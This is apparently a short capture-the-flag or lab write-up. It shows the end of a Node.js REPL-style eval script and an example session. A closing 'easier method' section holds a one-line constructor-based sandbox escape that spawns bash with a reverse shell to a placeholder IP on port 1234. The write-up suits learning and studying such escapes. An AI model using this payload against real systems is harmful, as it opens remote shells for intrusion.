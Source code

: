 ```javascript
    } else if (key.name === 'down' && history.length > 0) {
        const nextCommand = history[history.length - 1];
        rl.setInput(nextCommand);
    }
});

console.log("Started eval script.");
console.log("Commands: fn, ev");
rl.prompt();
```

# Example

```bash
Started eval script.
Commands: fn, ev
> 1+1
{"result":2}
> fn
$ let x = 1; x++; return x;
{"result":2}
$ ev
> 1+1
{"result":2}
> 
```

# Ways to make it easier..

After seeing others results I see that i could have done this in a much shorter method.

```javascript
cos.constructor("return process.mainModule.require('child_process').spawnSync('/bin/bash', ['-c', 'bash -i >& /dev/tcp/IP/1234 0>&1 &'])")()
```
